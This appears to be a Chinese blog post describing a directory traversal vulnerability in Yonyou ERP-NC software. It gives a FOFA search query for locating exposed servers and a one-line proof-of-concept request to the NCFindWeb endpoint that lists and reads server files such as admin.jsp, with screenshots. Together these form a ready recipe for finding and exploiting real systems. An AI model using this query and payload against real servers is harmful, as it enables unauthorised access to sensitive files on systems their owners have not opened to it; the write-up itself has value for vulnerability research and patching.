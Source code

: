 # ⽤友ERP-NC ⽬录遍历漏洞


### 漏洞描述

⽤友ERP-NC 存在⽬录遍历漏洞，攻击者可以通过⽬录遍历获取敏感⽂件信息 



### fofa语法

```bash
app="⽤友-UFIDA-NC"
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bfofa.jpg)



### 复现

POC:

```bash
 /NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8B%E4%BA%BApoc1.jpg)

查看文件（这里以admin.jsp为例）：

![](http://image.xpshuai.cn/%E7%94%A8%E5%8F%8Bpoc.jpg)

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E5%8F%8Berp-nc-%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E/  


